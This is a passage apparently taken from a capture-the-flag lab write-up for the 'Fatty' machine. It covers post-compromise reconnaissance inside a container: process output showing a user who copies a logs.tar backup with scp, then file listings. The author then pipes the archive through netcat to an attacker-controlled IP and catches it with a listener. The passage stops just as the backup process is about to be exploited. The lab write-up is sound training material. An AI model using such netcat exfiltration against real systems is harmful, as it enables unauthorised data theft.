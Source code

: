 ```bash
UID=0    PID=76     | sshd: [accepted]
UID=22   PID=77     | sshd: [net]       
UID=1000 PID=78     | sshd: qtc         
UID=1000 PID=79     | scp -f /opt/fatty/tar/logs.tar
[...]
```

Seems like the user qtc regularly copies the `/opt/fatty/tar/logs.tar` tar archive somewhere on the real host.

We can check out the `/opt/fatty/tar` directory.

```bash
2f265ce12800:/opt/fatty$ ls -lh
total 10592
-rw-r--r--    1 root     root       10.3M Oct 30  2019 fatty-server.jar
drwxr-xr-x    5 root     root        4.0K Oct 30  2019 files
drwxr-xr-x    1 qtc      qtc         4.0K Jan 29 12:10 logs
-rwxr-xr-x    1 root     root         406 Oct 30  2019 start.sh
drwxr-xr-x    1 qtc      qtc         4.0K Jul 26 21:00 tar

2f265ce12800:/opt/fatty/tar$ ls -alh
total 32
drwxr-xr-x    1 qtc      qtc         4.0K Jul 26 21:00 .
drwxr-xr-x    1 root     root        4.0K Oct 30  2019 ..
-rw-r--r--    1 qtc      qtc        21.0K Jul 27 09:00 logs.tar
```

Let us transfer the file to our machine using netcat.

```bash
2f265ce12800:/opt/fatty/tar$ cat logs.tar | nc 10.10.14.8 1234
```

```bash
root@darkness:~# nc -lvnp 1234 > logs.tar
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.10.174.
Ncat: Connection from 10.10.10.174:39273.
```

Let us check out the archive now.

```bash
root@darkness:~# tar xvf logs.tar
opt/fatty/logs/
opt/fatty/logs/error-log.txt
opt/fatty/logs/info-log.txt
```

The archive contains log files. Seems like the cronjob that copies the files via scp is a simple backup implementation between the container and the host.

### Exploiting the backup process
